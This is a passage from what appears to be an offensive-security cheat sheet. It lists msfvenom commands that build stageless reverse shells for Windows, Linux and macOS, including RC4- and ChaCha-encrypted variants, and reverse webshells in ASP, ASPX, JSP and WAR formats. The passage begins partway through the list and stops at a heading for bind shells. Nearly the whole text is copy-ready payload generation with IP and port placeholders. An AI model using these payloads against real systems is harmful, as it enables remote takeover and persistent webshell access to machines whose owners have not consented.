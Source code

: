 `$ msfvenom -p windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.ps1`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/shell_reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/encrypted_shell_reverse_tcp chachakey=1234567890abcdef1234567890abdcef chachanonce=1234567890ab lhost=<IP> lport=<PORT> -f exe -o shell-enc-x64.exe`

`$ msfvenom -p windows/x64/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell-x64.ps1`

##### 2.5.1.6  - Stageless Linux Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64`

##### 2.5.1.7 -  Stageless Mac OSX Reverse Shells

`$ msfvenom -p osx/x86/shell_reverse_tcp lhost=<IP> lport=<PORT> -f macho -o shell_x86`

`$ msfvenom -p osx/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f macho -o shell_x64`

##### 2.5.1.8  - Stageless Reverse Webshells

1. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86-64.asp`

2. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86-64.aspx`

3. **JSP**

`$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o shell.jsp`

4. **War**

`$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o shell.war`

#### 2.5.2 - Bind Shells

##### 2.5.2.1 - Staged Windows Bind Shells
